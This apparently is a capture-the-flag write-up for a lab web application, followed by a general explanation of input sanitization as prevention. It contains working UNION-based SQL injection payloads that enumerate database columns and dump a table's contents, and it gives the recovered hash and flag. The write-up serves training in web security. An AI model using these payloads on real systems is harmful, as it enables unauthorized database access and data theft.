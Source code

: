 
http://10.12.100.231/?page=member

5 UNION SELECT table_name, column_name FROM information_schema.columns

First name: list_images

Surnames : title, url, comment

http://10.12.100.231/?page=searchimg

`5 UNION SELECT title, comment FROM list_images`

`ID: 5 UNION SELECT title, comment FROM list_images` 

Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

[md5_decrypt](https://www.md5online.org/md5-decrypt.html) (1928e8083cf461a51303633093573c46) = albatroz

[Sha256](https://md5decrypt.net/en/Sha256/)(albatroz) = `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## # Prevention

Sanitizing inputs refers to the process of validating and cleaning user-provided data before using it in an application or storing it in a database. The purpose of input sanitization is to ensure the integrity, security, and stability of the application by preventing potentially harmful or unexpected data from causing issues.

When users interact with an application, they can input various types of data, such as text, numbers, files, or other forms of input. However, this data may not always be reliable, and malicious users may attempt to exploit vulnerabilities or disrupt the application's functionality.

Input sanitization involves validating and cleaning the input data to ensure it conforms to expected formats, types, and constraints. This process typically includes the following steps:

1. Validation: Checking the input data to ensure it meets specific criteria, such as length limits, required fields, allowed character sets, or numeric ranges. Validation helps ensure the input is valid and appropriate for the application's needs.
2. Filtering: Removing or neutralizing potentially harmful or unwanted elements from the input. This may involve removing special characters, HTML tags, or scripts that could be used for injection attacks or malicious code execution.
3. Encoding: Converting characters or symbols that have special meanings in the context of the application to their encoded representations. This prevents the interpreted execution of potentially dangerous characters or code.